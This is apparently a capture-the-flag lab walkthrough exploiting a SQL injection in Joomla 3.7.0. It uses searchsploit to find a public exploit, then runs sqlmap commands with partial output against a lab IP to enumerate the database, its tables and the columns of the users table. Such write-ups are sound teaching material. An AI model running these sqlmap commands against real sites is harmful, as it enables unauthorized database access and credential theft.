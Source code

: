 ![](login-page.png)

As per the [Joomla Documentation](https://docs.joomla.org/Administrator_(User)):
> The default Super Users is admin and is installed with every Joomla! site.

Yet another quick search through searchsploit gives us a nice exploit for SQLi on joomla 3.7.0:
```shell-session
$ searchsploit Joomla 3.7.0
$ searchsploit -p php/webapps/42033.txt
...
$ cp /usr/share/exploitdb/exploits/php/webapps/42033.txt .
```

Reading through this exploit, we find that it gives us a nice `sqlmap` command:
```shell-session
$ sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

By adding the `--tables` and `-D joomla` flags, we can specify that we wanna try and understand the tables of the database first, and what kind of database to attack.
```shell-session
$ sqlmap -u "http://10.10.57.40/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs --tables -p list[fullordering] -D joomla
```

This gives us a total of 72 tables to work with, most are not very useful, however, one of the ones we can use is the `__users` table:
```shell-session
$ sqlmap -u "http://10.10.57.40/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs --columns -p list[fullordering] -D joomla -T '#__users'

...
do you want to use common column existence check? [y/N/q] y
...
[00:08:34] [INFO] retrieved: id
[00:08:34] [INFO] retrieved: name
[00:08:35] [INFO] retrieved: username
[00:08:39] [INFO] retrieved: email
[00:09:20] [INFO] retrieved: password
...
```